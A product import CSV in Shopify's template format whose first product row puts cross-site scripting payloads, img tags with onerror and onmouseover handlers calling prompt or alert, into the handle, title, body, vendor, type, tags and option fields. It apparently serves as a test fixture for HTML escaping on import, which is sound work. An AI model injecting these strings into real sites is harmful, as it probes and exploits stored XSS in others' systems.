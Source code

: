 Handle,Title,Body (HTML),Vendor,Type,Tags,Published,Option1 Name,Option1 Value,Option2 Name,Option2 Value,Option3 Name,Option3 Value,Variant SKU,Variant Grams,Variant Inventory Tracker,Variant Inventory Qty,Variant Inventory Policy,Variant Fulfillment Service,Variant Price,Variant Compare At Price,Variant Requires Shipping,Variant Taxable,Variant Barcode,Image Src,Image Alt Text,Gift Card,Google Shopping / MPN,Google Shopping / Age Group,Google Shopping / Gender,Google Shopping / Google Product Category,SEO Title,SEO Description,Google Shopping / AdWords Grouping,Google Shopping / AdWords Labels,Google Shopping / Condition,Google Shopping / Custom Product,Google Shopping / Custom Label 0,Google Shopping / Custom Label 1,Google Shopping / Custom Label 2,Google Shopping / Custom Label 3,Google Shopping / Custom Label 4,Variant Image,Variant Weight Unit
"><img src=" " onMouseover=prompt(/xss/);>,><IMG SRC=x onerror=prompt(7)>,asd"/><img src="asD" onmouseover="alert('XSS');"//,><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,TRUE,><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,,,,,,3629,,1,deny,manual,25,,TRUE,TRUE,,http://cdn.shopify.com/s/images/shopify_shirt.png?e6948ca4d9028f9e734b8202cc472e3b89aae0f3,A black t-shirt with the shopify logo,FALSE,7X8ABC910,Adult,Unisex,Apparel & Accessories > Clothing,Our awesome T-shirt in 70 characters or less.,A great description of your products in 160 characters or less,T-shirts,"cotton, pre-shrunk",used,FALSE,,,,,,,
example-t-shirt,,,,,,,Title,Small,,,,,example-shirt-s,200,,1,deny,manual,19.99,24.99,TRUE,TRUE,,,,,,,,,,,,,,,,,,,,,
example-t-shirt,,,,,,,Title,Medium,,,,,example-shirt-m,200,shopify,1,deny,manual,19.99,24.99,TRUE,TRUE,,,,,,,,,,,,,,,,,,,,,

